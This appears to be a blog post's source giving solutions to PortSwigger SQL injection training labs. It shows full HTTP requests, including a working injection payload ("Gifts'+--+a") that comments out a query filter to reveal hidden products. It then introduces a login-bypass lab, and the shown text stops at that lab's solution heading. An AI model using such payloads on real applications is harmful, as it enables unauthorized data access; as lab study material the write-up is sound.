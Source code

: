 ```yaml
---
layout: post
title:  SQL Injection Labs
date:   2023-10-11 03:49:10 +0100
categories: sql-injection
post_id: 5
---
```


What follows is solution to various sql injection labs. The labs are from [Portswigger](https://portswigger.net) and [PentesterLab](https://pentesterlab.com).

## Portswigger Labs

### [Lab 1: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)

### Lab 1 Task

***This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:***

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

***To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.***

### Lab 1 Solution

Initial request to the product category endpoint:

```http
GET /filter?category=Gifts HTTP/2
Host: 0af2009f0450fade80d6941f008f0019.web-security-academy.net
Cookie: session=hGmkEl6IBiujl1QH2Hrwm8fpzk3qm5uB
Sec-Ch-Ua: "Google Chrome";v="117", "Not;A=Brand";v="8", "Chromium";v="117"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0af2009f0450fade80d6941f008f0019.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
```

The image below shows the response to the above request:

![lab1](../assets/images/posts/sql-injection-labs/2023-10-12_16-09_normal_response.png)

We can see from the above response only 3 products are displayed. To solve the lab we will attempt to comment out the `AND released = 1` part of the query and see if we can get the unreleased products. To do this we will use the `--` comment syntax. The `--` syntax comments out everything after it. So we will send the following request:

```http
GET /filter?category=Gifts'+--+a HTTP/2
Host: 0af2009f0450fade80d6941f008f0019.web-security-academy.net
Cookie: session=hGmkEl6IBiujl1QH2Hrwm8fpzk3qm5uB
Sec-Ch-Ua: "Google Chrome";v="117", "Not;A=Brand";v="8", "Chromium";v="117"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0af2009f0450fade80d6941f008f0019.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9


```

The image below shows the response to the above request:

![lab1](../assets/images/posts/sql-injection-labs/2023-10-12_17-27_response_with_injection.png)

We can see that 4 products are now displayed, which means we have successfully injected the query. And that's it for lab 1 we have successfully view an unreleased product.

![lab1](../../../assets/images/posts/sql-injection-labs/2023-10-12_17-31_lab1_solved.png)

### [Lab 2: SQL injection vulnerability allowing login bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

### Lab 2 Task

***This lab contains a SQL injection vulnerability in the login function.***

***To solve the lab, perform a SQL injection attack that logs in to the application as the administrator user.***

### Lab 2 Solution
